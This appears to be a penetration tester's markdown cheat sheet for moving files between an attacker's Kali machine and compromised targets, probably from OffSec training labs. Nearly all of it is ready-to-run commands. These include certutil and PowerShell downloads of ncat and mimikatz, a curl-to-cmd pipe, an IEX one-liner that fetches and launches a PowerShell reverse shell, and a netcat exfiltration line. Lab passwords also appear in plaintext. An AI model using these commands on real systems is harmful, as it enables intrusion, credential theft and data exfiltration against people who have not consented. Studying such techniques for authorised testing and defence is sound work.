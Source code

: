 

# C2

##### HTTP GET
```python
python -m SimpleHTTPServer $port
```

```python
python3 -m http.server $port
```

##### HTTP PUT
```python
python3 -m uploadserver --basic-auth-upload offsec:wandton 8123
```

##### FTP
```
sudo systemctl start pure-ftpd
```
(Setup FTP Server on Linux: [isetup-ftp.sh](file:////home/kali/Documents/linuxAdministration/))

##### WebDAV
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/ATP23/webdav/
```

##### TFTP (Useful on XP)
```bash
sudo atftpd --daemon --port 69 /tftp` )
```


# On the target

##### HTTP
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/ncat.exe"
```

```bash
curl -X POST http://$tip:8000/upload -F 'files=@$filename' -u offsec:wandton
```

```bash
curl http://server/file.bat | cmd
```
##### SSH
Upload
```bash
scp -i id_rsa_kali $file kali@$hip:"/home/kali/"
```
Download
```bash
scp $user@$hip:'C:\\Users\\$user\\Downloads\\data.zip' .
```

##### FTP
```powershell
echo "open 192.168.45.182 21" > ftp.txt; echo "USER offsec" >> ftp.txt; echo "alexrudolf" >> ftp.txt; echo "bin" >> ftp.txt; echo "GET ncat.exe" >> ftp.txt; echo "bye" >> ftp.txt; ftp -v -n -s:ftp.txt
```
(dir on linux: `/ftphome/`)
> Error `I won't open a connection to xx.xx.xx.xx (only to xx.xx.xx.xx)` means that passive mode is required. The windows ftp client does not support passive mode

##### TFTP (Useful on XP)
```powershell
tftp -i $ip put <filename>
```


## Download to Windows

```powershell
iwr -uri http://$hip/adduser.exe -Outfile adduser.exe
```

Download File (HTTP)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$hip/$filename$','C:\Users\offsec\Desktop\wget.exe')"
```

```powershell
Invoke-WebRequest -Uri 'http://192.168.45.177:80/mimikatz32.exe' -OutFile 'C:\Users\marcus\Desktop\mimi32.exe'
```

Download and Execute String  (HTTP)
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:$port/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress $ip -Port $port"
```



## Windows -> Linux

Netcat
```
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```